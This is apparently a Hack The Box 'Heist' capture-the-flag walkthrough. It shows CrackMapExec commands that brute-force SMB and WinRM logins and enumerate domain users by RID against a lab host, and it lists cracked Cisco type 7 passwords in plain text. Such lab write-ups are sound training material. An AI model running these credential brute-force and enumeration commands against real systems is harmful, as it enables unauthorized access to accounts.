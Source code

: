 Put them into user file

root@kali:~/htb/heist# gedit user.txt

Use password from ciscopasswordcrack

stealth1agent
$uperP@ssword

root@kali:~/htb/heist# gedit passwords.txt

![image](https://user-images.githubusercontent.com/6413570/163595214-c9a709d3-06db-449d-9676-cab417ac6a6c.png)

use CrackMapExecv5.0.2dev to bruteforce


https://github.com/byt3bl33d3r/CrackMapExec/releases/tag/v5.0.2dev

![image](https://user-images.githubusercontent.com/6413570/163595247-82b81309-95b2-46b8-b4f2-7eb35949de58.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt

![image](https://user-images.githubusercontent.com/6413570/163595267-cf973e1f-c071-44de-bfa9-8e307a368f17.png)
SupportDesk\Hazard:stealth1agent 

WinRm login?

python3 cme winrm 10.10.10.149 -u Hazard -p stealth1agent 

![image](https://user-images.githubusercontent.com/6413570/163595299-85befa2d-2fe1-4cd0-9960-f5d37e22e64c.png)

Isn't in Remote Management Users group

Rid-brute force

python3 cme smb 10.10.10.149 -u Hazard -p stealth1agent --rid-brute

![image](https://user-images.githubusercontent.com/6413570/163595332-c211671c-f2d3-496b-a247-6f881462c553.png)

Add the additional users
Chase
Jason
![image](https://user-images.githubusercontent.com/6413570/163595364-8e2fd1b8-fa7a-4cb4-8dfa-7d3ddf73a66b.png)
![image](https://user-images.githubusercontent.com/6413570/163595376-718804da-563b-4621-88ea-1c9356a11f91.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt

![image](https://user-images.githubusercontent.com/6413570/163595396-3e06cf6f-77ac-407a-8a6e-b4ee2d36a530.png)

I missed one of the cisco type7 passwords, so I added it:

Q4)sJu\Y8qz*A3?d

![image](https://user-images.githubusercontent.com/6413570/163595425-a7dc1b79-79ac-4fd7-9756-90fe19dac1a5.png)

python3 cme smb 10.10.10.149 -u user.txt -p passwords.txt
![image](https://user-images.githubusercontent.com/6413570/163595461-a120f4b6-13ad-478f-a13e-f2321e1c60c6.png)
